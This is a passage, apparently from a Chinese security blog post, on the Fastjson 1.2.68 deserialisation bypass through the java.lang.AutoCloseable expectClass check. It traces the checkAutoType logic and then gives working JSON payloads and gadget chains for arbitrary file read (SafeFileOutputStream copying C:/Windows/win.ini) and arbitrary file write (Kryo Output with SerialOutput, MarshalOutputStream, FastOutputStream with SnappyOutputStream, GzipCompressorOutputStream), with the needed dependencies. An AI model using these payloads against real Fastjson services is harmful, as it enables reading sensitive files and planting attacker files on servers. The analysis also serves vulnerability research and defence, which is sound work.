显然我们这里并没有expectClass，所以会直接返回AutoCloseable类，跳出checkAutoType函数



根据 `AutoCloseable` 类获取到反序列化器为 `JavaBeanDeserializer`，然后应用该反序列化器进行反序列化操作，跟进deserialze函数



这里设置了type为AutoCloseable类



经过一系列获取反序列化器的流程后并没有获取到相应的反序列化器，随后会进入checkAutoType函数，将type作为expectClass传入，此时第一个参数typeName就是我们PoC 中第二个指定的类



这里expectClassFlag设置为true



由于expectClassFlag为true，AutoType关闭且jsonType为false，所以调用这里的loadClass函数去加载类，并且此时是不会开启缓存的

那主要是绕过哪里了呢？继续往下走



如果expectClass不为null，则判断目标类是否是expectClass类的子类，是的话就添加到Mapping缓存中并直接返回该目标类，否则直接抛出异常导致利用失败

**这里就解释了为什么恶意类必须要继承AutoCloseable接口类，因为这里expectClass为AutoCloseable类、因此恶意类必须是AutoCloseable类的子类才能通过这里的判断**

后面的话就是正常的反序列化操作了

简单总结一下：

当传入checkAutoType()函数的expectClass参数不为null，并且需要加载的目标类是expectClass类的子类或者实现类时（不在黑名单中），就将需要加载的目标类当做是正常的类然后通过调用TypeUtils.loadClass()函数进行加载。

## 读写文件利用

主要是寻找关于输入输出流的类来写文件，IntputStream和OutputStream都是实现自AutoCloseable接口的。



### SafeFileOutputStream（任意文件读取）

 利用类**org.eclipse.core.internal.localstore.SafeFileOutputStream**

需要导入依赖

```xml
<dependency>  
 <groupId>org.aspectj</groupId>  
 <artifactId>aspectjtools</artifactId>  
 <version>1.9.5</version>  
</dependency>
```

看到SafeFileOutputStream的构造函数

```java
    public SafeFileOutputStream(String targetPath, String tempPath) throws IOException {
        this.failed = false;
        this.target = new File(targetPath);
        this.createTempFile(tempPath);
        if (!this.target.exists()) {
            if (!this.temp.exists()) {
                this.output = new BufferedOutputStream(new FileOutputStream(this.target));
                return;
            }

            this.copy(this.temp, this.target);
        }

        this.output = new BufferedOutputStream(new FileOutputStream(this.temp));
    }
```

这里的话会读取targetPath文件的内容，并判断如果target文件不存在而temp文件存在，就把临时文件内容复制成目标文件，利用这个特点可以造成任意文件读取的作用

#### POC

```java
{"@type":"java.lang.AutoCloseable", "@type":"org.eclipse.core.internal.localstore.SafeFileOutputStream", "tempPath":"C:/Windows/win.ini", "targetPath":"E:/test.txt"}
```



### io.Output（任意文件写入）

利用类：**com.esotericsoftware.kryo.io.Output**

也是需要依赖

```xml
<dependency>
    <groupId>com.esotericsoftware</groupId>
    <artifactId>kryo</artifactId>
    <version>4.0.0</version>
</dependency>
```

Output类主要用来写内容，它提供了`setBuffer()`和`setOutputStream()`两个setter方法可以用来写入输入流，其中buffer参数值是文件内容，outputStream参数值就是前面的SafeFileOutputStream类对象，而要触发写文件操作则需要调用其`flush()`函数

```java
	public void setOutputStream (OutputStream outputStream) {
		this.outputStream = outputStream;
		position = 0;
		total = 0;
	}
```

```java
	public void setBuffer (byte[] buffer) {
		setBuffer(buffer, buffer.length);
	}
	public void setBuffer (byte[] buffer, int maxBufferSize) {
		if (buffer == null) throw new IllegalArgumentException("buffer cannot be null.");
		if (buffer.length > maxBufferSize && maxBufferSize != -1)
			throw new IllegalArgumentException("buffer has length: " + buffer.length + " cannot be greater than maxBufferSize: " + maxBufferSize);
		if (maxBufferSize < -1) throw new IllegalArgumentException("maxBufferSize cannot be < -1: " + maxBufferSize);
		this.buffer = buffer;
		this.maxCapacity = maxBufferSize == -1 ? Integer.MAX_VALUE : maxBufferSize;
		capacity = buffer.length;
		position = 0;
		total = 0;
		outputStream = null;
	}
```

```java
	public void flush () throws KryoException {
		if (outputStream == null) return;
		try {
			outputStream.write(buffer, 0, position);
			outputStream.flush();
		} catch (IOException ex) {
			throw new KryoException(ex);
		}
		total += position;
		position = 0;
	}
```

然后我们得看看如何触发flush函数

`flush()`函数只有在`close()`和`require()`函数被调用时才会触发，其中`require()`函数在调用write相关函数时会被触发。

```java
	protected boolean require (int required) throws KryoException {
		if (capacity - position >= required) return false;
		if (required > maxCapacity)
			throw new KryoException("Buffer overflow. Max capacity: " + maxCapacity + ", required: " + required);
		flush();
		while (capacity - position < required) {
			if (capacity == maxCapacity)
				throw new KryoException("Buffer overflow. Available: " + (capacity - position) + ", required: " + required);
			// Grow buffer.
			if (capacity == 0) capacity = 1;
			capacity = Math.min(capacity * 2, maxCapacity);
			if (capacity < 0) capacity = maxCapacity;
			byte[] newBuffer = new byte[capacity];
			System.arraycopy(buffer, 0, newBuffer, 0, position);
			buffer = newBuffer;
		}
		return true;
	}
	public void write (int value) throws KryoException {
		if (position == capacity) require(1);
		buffer[position++] = (byte)value;
	}
```

继续回溯，找找哪里能触发write函数

其中，找到JDK的ObjectOutputStream类，其内部类BlockDataOutputStream的构造函数中将OutputStream类型参数赋值给out成员变量，而其`setBlockDataMode()`函数中调用了`drain()`函数、`drain()`函数中又调用了`out.write()`函数，满足前面的需求

```java
BlockDataOutputStream(OutputStream out) {
    this.out = out;
    dout = new DataOutputStream(this);
}
boolean setBlockDataMode(boolean mode) throws IOException {
    if (blkmode == mode) {
        return blkmode;
    }
    drain();
    blkmode = mode;
    return !blkmode;
}
void drain() throws IOException {
    if (pos == 0) {
        return;
    }
    if (blkmode) {
        writeBlockHeader(pos);
    }
    out.write(buf, 0, pos);
    pos = 0;
}
```

然后对于setBlockDataMode的调用，在ObjectOutputStream的构造函数中就有调用

```java
    public ObjectOutputStream(OutputStream out) throws IOException {
        verifySubclass();
        bout = new BlockDataOutputStream(out);
        handles = new HandleTable(10, (float) 3.00);
        subs = new ReplaceTable(10, (float) 3.00);
        enableOverride = false;
        writeStreamHeader();
        bout.setBlockDataMode(true);
        if (extendedDebugInfo) {
            debugInfoStack = new DebugTraceInfoStack();
        } else {
            debugInfoStack = null;
        }
    }
```

但是Fastjson优先获取的是ObjectOutputStream类的无参构造函数，因此只能找ObjectOutputStream的继承类来触发了。

只有有参构造函数的ObjectOutputStream继承类：**com.sleepycat.bind.serial.SerialOutput**

需要依赖

```java
<dependency>
    <groupId>com.sleepycat</groupId>
    <artifactId>je</artifactId>
    <version>5.0.73</version>
</dependency>
```

```java
    public SerialOutput(OutputStream out, ClassCatalog classCatalog)
        throws IOException {

        super(out);
        this.classCatalog = classCatalog;

        /* guarantee that we'll always use the same serialization format */

        useProtocolVersion(ObjectStreamConstants.PROTOCOL_VERSION_2);
    }
```

可以看到这里调用到了父类ObjectOutputStream的有参构造函数，至此链子就连上了

链子

```java
com.sleepycat.bind.serial.SerialOutput#SerialOutput()->
    java.io.ObjectOutputStream的有参函数->
        java.io.ObjectOutputStream$BlockDataOutputStream#setBlockDataMode()->
            java.io.ObjectOutputStream$BlockDataOutputStream#drain()->
                com.esotericsoftware.kryo.io.Output#write(int)->require()->flush()
```

POC如下，用到了Fastjson循环引用的技巧来调用

```java
{
    "stream": {
        "@type": "java.lang.AutoCloseable",
        "@type": "org.eclipse.core.internal.localstore.SafeFileOutputStream",
        "targetPath": "[写入文件目录]",
        "tempPath": "D:/wamp64/www/test.txt"
    },
    "writer": {
        "@type": "java.lang.AutoCloseable",
        "@type": "com.esotericsoftware.kryo.io.Output",
        "buffer": "[写入文件内容]",
        "outputStream": {
            "$ref": "$.stream"
        },
        "position": 5
    },
    "close": {
        "@type": "java.lang.AutoCloseable",
        "@type": "com.sleepycat.bind.serial.SerialOutput",
        "out": {
            "$ref": "$.writer"
        }
    }
}
```

`$ref` 引用是利用 **JSON 内部对象引用机制**，避免了内部重复序列化同一个对象的问题



但是这里很多字符都写不了，有的特殊字符并不能直接写入到目标文件中，比如写不进PHP代码等。

当然su18师傅也收集了很多Gadgets：https://su18.org/post/fastjson/#%E5%9B%9B-payload

- AutoCloseable MarshalOutputStream 任意文件写入

```java
{
	'@type': "java.lang.AutoCloseable",
	'@type': 'sun.rmi.server.MarshalOutputStream',
	'out': {
		'@type': 'java.util.zip.InflaterOutputStream',
		'out': {
			'@type': 'java.io.FileOutputStream',
			'file': 'dst',
			'append': false
		},
		'infl': {
			'input': {
				'array': 'eJwL8nUyNDJSyCxWyEgtSgUAHKUENw==',
				'limit': 22
			}
		},
		'bufLen': 1048576
	},
	'protocolVersion': 1
}
```

- AutoCloseable 任意文件写入

```java
{
    "stream":
    {
        "@type":"java.lang.AutoCloseable",
        "@type":"java.io.FileOutputStream",
        "file":"/tmp/nonexist",
        "append":false
    },
    "writer":
    {
        "@type":"java.lang.AutoCloseable",
        "@type":"org.apache.solr.common.util.FastOutputStream",
        "tempBuffer":"SSBqdXN0IHdhbnQgdG8gcHJvdmUgdGhhdCBJIGNhbiBkbyBpdC4=",
        "sink":
        {
            "$ref":"$.stream"
        },
        "start":38
    },
    "close":
    {
        "@type":"java.lang.AutoCloseable",
        "@type":"org.iq80.snappy.SnappyOutputStream",
        "out":
        {
            "$ref":"$.writer"
        }
    }
}
```

- AutoCloseable 任意文件写入

```java
{
	"@type": "java.lang.AutoCloseable",
	"@type": "org.apache.commons.compress.compressors.gzip.GzipCompressorOutputStream",
	"out": {
		"@type": "java.io.FileOutputStream",
		"file": "/path/to/target"
	},
	"parameters": {
		"@type": "org.apache.commons.compress.compressors.gzip.GzipParameters",
		"filename": "filecontent"
	}
}
```


参考文章：

https://drun1baby.top/2022/08/13/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96Fastjson%E7%AF%8704-Fastjson1-2-62-1-2-68%E7%89%88%E6%9C%AC%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E/

https://baozongwi.xyz/p/fastjson-1.2.6x-deserialization/

https://www.anquanke.com/post/id/232774
